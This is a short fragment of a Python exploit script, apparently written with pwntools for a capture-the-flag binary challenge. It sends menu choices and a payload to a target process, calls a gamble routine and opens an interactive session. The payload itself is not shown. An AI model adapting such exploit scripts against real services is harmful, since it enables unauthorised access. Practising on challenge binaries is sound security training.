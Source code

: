 ```python
    P.sendlineafter(b'What will you do?\n', b'c')
    P.sendlineafter(b'handle?\n', payload)
    P.sendlineafter(b'What will you do?\n', b'g')

    gamble()

    P.interactive()
    
if __name__ == '__main__':
    connect_binary()
    exploit()

```